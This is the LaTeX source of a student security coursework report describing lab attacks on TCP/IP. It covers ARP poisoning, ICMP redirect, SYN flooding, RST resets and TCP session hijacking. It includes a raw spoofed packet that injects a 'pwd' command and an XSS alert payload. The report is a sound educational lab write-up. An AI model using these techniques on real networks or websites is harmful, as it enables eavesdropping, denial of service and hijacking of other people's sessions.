\documentclass[12pt, a4paper, pdflatex]{article}

\usepackage[top=1in, bottom=1in, left=1in, right=1in]{geometry}
\newcommand{\HRule}{\rule{\linewidth}{0.5mm}}
\usepackage{lipsum}
\usepackage[labelfont=bf]{caption}
\usepackage[]{algorithm2e}
\usepackage{listings}

\renewcommand{\thesubsubsection}{\thesubsection.\alph{subsubsection})} %subsubsections with letters

\usepackage{amsmath}
\usepackage{amsfonts}    % fancy maths font
\usepackage{mathrsfs}    % fancy maths font
\usepackage{dsfont}      % indocator finction
\usepackage{hyperref}
\usepackage[page, toc]{appendix}
\usepackage[usenames,dvipsnames]{color}
\usepackage{graphicx}
\newcommand{\ts}{\textsuperscript}
% \usepackage{url}

\definecolor{lightgray}{rgb}{.9,.9,.9}
\definecolor{darkgray}{rgb}{.4,.4,.4}
\definecolor{purple}{rgb}{0.65, 0.12, 0.82}

\lstdefinelanguage{JavaScript}{
  keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
  keywordstyle=\color{blue}\bfseries,
  ndkeywords={class, export, boolean, throw, implements, import, this},
  ndkeywordstyle=\color{darkgray}\bfseries,
  identifierstyle=\color{black},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  commentstyle=\color{purple}\ttfamily,
  stringstyle=\color{red}\ttfamily,
  morestring=[b]',
  morestring=[b]"
}

\begin{document}
% \pagenumbering{gobble}% Remove page numbers

\begin{center}
\vspace*{\fill}
% \begin{vplace}[1]
  \Huge
 \texttt{\textbf{PART B}}
 % \end{vplace}

\end{center}


\begin{center}
    \begin{large}
    {\HRule \\[0.2cm]}
    \textsc{Attacks on TCP/IP Protocols}
    {\HRule \\[0.3cm]}
    \end{large}

    \begin{minipage}{ 0.49\textwidth }
        \begin{flushleft}
            Kacper \textbf{Sokol}---\texttt{ks1591}---4GGK1\\
            Maciej \textbf{Kumorek}---\texttt{mk0934}---4G403\\
        \end{flushleft}
    \end{minipage}
    \begin{minipage}{ 0.49\textwidth }
        \begin{flushright}
            {COMSM1500 $|$ Systems Security\\
            Coursework: Part B---\today\\[0.3cm]}
        \end{flushright}
    \end{minipage}
\end{center}
\vspace*{\fill}

\thispagestyle{empty}
\newpage
\setcounter{page}{1}

\section{Introduction}
In this paper we present how to exploit vulnerabilities such as: altering packets in \texttt{TCP/IP} protocol, \texttt{XSS}---Cross-site scripting, and \texttt{SQL} injections.\\
In each subtask we explain the cause of a vulnerability and show how to perform a potential attack with detailed description of the results and proof in form of a screen-shoot. Methods used to exploit these weaknesses are described in depth; algorithms, code, input, and output are included for clarity. We finally reflect on potential risks and whenever possible advise counter measures.\\
\textbf{Table~\ref{tab:SoC}} shows contribution to this study per author.

\begin{center}
  \begin{table}[h]
    \begin{tabular}{ l | p{8.5cm} | c }
      Group member ID & Contribution outline & Contribution \\
      \hline
      ks1591 &
      \begin{itemize}
        \item setting up lab environment on personal computer,
        \item creating report template,
        \item background reading,
        \item joint work on each of the assignment with roughly equal contribution.
      \end{itemize}
      & 50\% \\
      mk0934 &
      \begin{itemize}
        \item setting up lab environment on personal computer,
        \item setting up git repository for coursework files,
        \item background reading,
        \item joint work on each of the assignment with roughly equal contribution.
      \end{itemize}
      & 50\% \\
    \end{tabular}
    \caption{Statement of contribution.\label{tab:SoC}}
  \end{table}
\end{center}

\newpage

\section{TCP attacks}

\subsection{ARP cache poisoning}\label{arp}

Our victim MAC address was \texttt{08:00:27:A6:EB:87} while its IP address was \texttt{10.0.2.4}. The gate-away is set at the address \texttt{10.0.2.1}.\\

We wanted to make the victim think that another gateway has the MAC of the attacker. The original MAC of the gateway was \texttt{52:54:00:12:35:00}, while attacker's MAC address was \texttt{08:00:27:EE:0D:0F}. We could see that by running \texttt{arp -a} command.\\


\includegraphics[width=.95\textwidth]{gfx/arp1}\\

Using \texttt{netwox} we could spoof a packet that updates ARP cache on the victim's machine and replace the entry with the MAC of the attacker at IP address \texttt{10.0.2.6}:\\


\includegraphics[width=.95\textwidth]{gfx/arp-attack}\\

Here we used \texttt{netwox} tool using the script we created that is shown in the \emph{appendix}~\ref{script1} for spoofing ARP packages, we tell the tool the original MAC and new MAC addresses, as well as IP addresses of the victim and the IP address of which entry in the ARP cache we want to modify.\\

After spoofing the packet, running \texttt{arp -a} tool on the victim's machine results in the following output:\\


\includegraphics[width=.95\textwidth]{gfx/arp-after-attack}

As we can see, the attacker managed to ``convince'' the victim that his hardware address corresponds to a 3\ts{rd} party IP address. Now we can observe packets send from the victim to the observer being received by the attacker in the \texttt{Wireshark} output:\\


\includegraphics[width=.95\textwidth]{gfx/arp-shark}


\subsection{ICMP Redirect Attack}

ICMP messages are used to send error or redirection information in the IP protocol. The redirect message tells the network to use alternative routing. An attacker can spoof an \emph{ICMP redirect request} in order to perform for example eavesdropping by driving the network traffic through the attacker's machine.\\

In this attack we want to listen to packet exchange between a victim and a third party (observer). We want to be able to send ICMP redirect packet spoofed in such a way that we convince everyone in the network that the attacker is the new gateway.\\

In order for the attack to succeed, we need to repeat the ARP attack (see \emph{section}~\ref{arp}).

Again using our script shown in the appendix~\ref{script1} we use \texttt{netwox} to spoof the ICMP message.\\


\includegraphics[width=.95\textwidth]{gfx/imcp-ping}\\

Now the entire network believes that the attacker is the new gate-away. If we try to ping the victim (at the address \texttt{10.0.2.4}) on the observer's machine (at the address \texttt{10.0.2.5}), we see that the communication works:\\


\includegraphics[width=.95\textwidth]{gfx/imcp-netwox}\\

However, the attacker can now watch the communication and data being sent using \texttt{Wireshark}.\\


\includegraphics[width=.95\textwidth]{gfx/imcp-shark}\\

Such a set-up can for example lead to capturing sensitive data that is unencrypted or may lead to recognizing known cipher-text--plain-text pairs that can be used for various attacks on encryption algorithms.

\subsection{SYN Flooding Attack}

In this attack our task was to cause a Denial of Service using SYN flood attack. The SYN or synchronize request is send in a typical TCP protocol exchange in order to establish a connection. A client sends a SYN packet, receiving SYN\_ACK acknowledgement from the server and confirms that the synchronization ACK packet was received by responding to the server with a ACK packet.\\

In the attack, an attacker sends multiple SYN packets without responding to SYN\_RECV. This is done by randomizing the IP address in the original SYN request, so that the response goes to nobody as a consequence. This causes the server to keep many ``half-open'' connections.\\

We perform the SYN flood attack using netwox using the script we created (see \ref{script1}). We can then see on the victim machine that there are many connections opened at state ``SYN-AC'' from many random IP addresses:\\

\includegraphics[width=.95\textwidth]{gfx/syn-netstat.png}

We send those requests to telnet port 23. However, we are still able to connect from an observer machine using telnet. This is because by default a mechanism for preventing SYN flood attacks is turned on. If we switch it off using the command \texttt{sudo sysctl -w net.ipv4.tcp\_syncookies=0} then we indeed see that our denial of service attacks works and we cannot connect to the victim machine using telnet:\\


\includegraphics[width=.95\textwidth]{gfx/syn-telnet.png}.

Syn cookies allow the server to send back SYN\_ACK packet and remove original SYN request from the queue. This way connections are not filling the buffer. Then, using the request number of arriving ACK packet, the original SYN can be ``reconstructed''. Thanks to this mechanism Denial of service attack was not possible in the first attempt.\\

It is hard to observer in \texttt{Wireshark} the amount of packets coming to the victim, because they quickly fill the buffer in \texttt{Wireshark} and cause it to crash.

\subsection{TCP RST Attacks on telnet and ssh Connections}

In the next task we were supposed to spoof a RST packet in order to break an established telnet or ssh connection between two machines in the same LAN network.\\

On the attacker machine we used \texttt{netwox} to prepare the malicious packet. We first establish a connection between a victim and observer and we could see the connection between them break if we send a packet to the observer pretending to be the victim.\\

We use our script in \emph{appendix}~\ref{script1} to create the RST packet on behalf of the victim at the IP address \texttt{10.0.2.4}.\\


\includegraphics[width=.95\textwidth]{gfx/rst-attack.png}

And we can see that when we try to type anything on the observer machine with an established telnet connection, the connection breaks:\\


\includegraphics[width=.95\textwidth]{gfx/rst-reset.png}.

The exact same happens for a SSH connection.\\

Using \texttt{Wireshark} tool we can see what the spoofed packet looks like:\\


\includegraphics[width=.95\textwidth]{gfx/rst-spoofed.png}

For the attack to work, we had to repeat ARP attack from first part of the task.

\subsection{TCP RST Attacks on Video Streaming Applications}

In this task we wanted to show how to reset the connection on a given machine that opens a socket with a Internet video streaming website.

However, the Firefox version on Ubuntu 9.10 is too old to allow watching online videos in 2014. Since upgrading would be troublesome, we decided to show that we can reset a connection between a TCP connection using simple python script simulating a server and client streaming data over TCP.

On an observer machine, we created a small server in Python that would be run on observer machine, which always echoes incoming packets:\\

\lstset{
	captionpos=b,
	frame=single,
	language=Python,
	breaklines=true,
	label=youtube1
}
\begin{lstlisting}
#!/usr/bin/env python

import socket
import time

TCP_IP = '10.0.2.5'
TCP_PORT = 5005
BUFFER_SIZE = 20  # Normally 1024, but we want fast response

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((TCP_IP, TCP_PORT))
s.listen(1)

conn, addr = s.accept()
print 'Connection address:', addr
while 1:
data = conn.recv(BUFFER_SIZE)
if not data: continue
print "received data:", data
#time.sleep(1)
conn.send("Received: " + data)  # echo
conn.close()
\end{lstlisting}

And on victim's machine, we created a script simulating client connecting to that server and sending and receiving data continuously. This would simulate streaming data from a YouTube server.\\
\lstset{
	captionpos=b,
	frame=single,
	language=Python,
	breaklines=true,
	label=youtube2
}
\begin{lstlisting}
import socket
import datetime

TCP_IP = '10.0.2.5'
TCP_PORT = 5005
BUFFER_SIZE = 1024
MESSAGE = "Hello, World!"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
s.send(MESSAGE)
while(1):
data = s.recv(BUFFER_SIZE)
if not data: continue
print datetime.datetime.now(), data
s.send(MESSAGE)
s.close()

print "received data:", data
\end{lstlisting}

We run the two scripts on observer and victim machine. Then we repeat ARP as the attacker and spoof RST packet in the same way as in the previous task.

This results in connection between victim and the simulated server being terminated:\\

\includegraphics[width=.95\textwidth]{gfx/python.png}

\subsection{ICMP Blind Connection-Reset and Source-Quench Attacks}

Another attack we attempted was to spoof ICMP packets for routers that would cause the reseting of connection or sending a ``source quench'' packet that would tell the router to slow down all the connections.

We used \texttt{netwox} tool to create these packets on the attacker machine.
Using wireshark we can see that these spoofed packets were indeed being sent:\\


\includegraphics[width=.95\textwidth]{gfx/unrechable.png}

However, we could not see any disruption to the connection that was established between victim and observer beforehand.


\subsection{Hijacking TCP session}

Last task in this section was to show how we can hijack an existing TCP session
between a victim and an observer from an attacker machine. We observed existing telnet
connection handshake using Wireshark on attacker machine (hence we had to perform ARP and ICMP redirection attacks).
Our goal was to send ``pwd'' command to display path on observer machine, pretending to be victim. When we listened to the
messages, we knew what were consecutive `seq' and and `ack' numbers. We had to use these values to prepare our packets. We had to insert
the increased `ack' number to be our new `seq' number and the previous, increased sequence number to be our next `ack' that we want to receive from the observer.\\


\includegraphics[width=.95\textwidth]{gfx/response.png}

We prepared the packet using \texttt{netwag} and tool 40:\\
\begin{verbatim}
Command 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --... :
IP______________________________________________________________.
|version|  ihl  |      tos      |            totlen             |
|___4___|___5___|____0x00=0_____|___________0x002D=45___________|
|              id               |r|D|M|       offsetfrag        |
|_________0x5731=22321__________|0|1|0|________0x0000=0_________|
|      ttl      |   protocol    |           checksum            |
|____0x40=64____|____0x06=6_____|____________0xCB91_____________|
|                            source                             |
|___________________________10.0.2.5____________________________|
|                          destination                          |
|___________________________10.0.2.4____________________________|
TCP_____________________________________________________________.
|          source port          |       destination port        |
|_________0xC860=51296__________|___________0x0017=23___________|
|                            seqnum                             |
|_____________________0x360868E2=906520802______________________|
|                            acknum                             |
|_____________________0x37E27287=937587335______________________|
| doff  |r|r|r|r|C|E|U|A|P|R|S|F|            window             |
|___5___|0|0|0|0|0|0|0|1|1|0|0|0|__________0x1B00=6912__________|
|           checksum            |            urgptr             |
|_________0x966E=38510__________|___________0x0000=0____________|
70 77 64 0d  00                                     # pwd..
__END_OF_PROGRAM__
\end{verbatim}
Last 4 bytes in that packet, ``70 77 64 0d'' are ASCII encoded string ``pwd\textbackslash r\textbackslash n''


We could observe teh packet being send in the Wireshark tool:\\ 
\includegraphics[width=.95\textwidth]{gfx/request.png}\\

After sending this packet, we had to also create ACK packet before the observer would provide us with the final response. Once response was send, the observer machine, convinced it's talking to the victim, would provide us with the response to the \texttt{pwd} command, which was the path to the observer home folder:\\


\includegraphics[width=.95\textwidth]{gfx/response.png}

This attack is especially dangerous, as we could perform any command on hijacked session. This shows the importance of using an encrypted protocol for communication.

\section{Cross-side scripting (XSS) attacks}

\subsection{Posting a Malicious Message to Display an Alert Window}
We succeeded in invoking the warning message with the following code:\\
\begin{center}\texttt{<script>alert('Vulnerable!');</script>}\end{center}
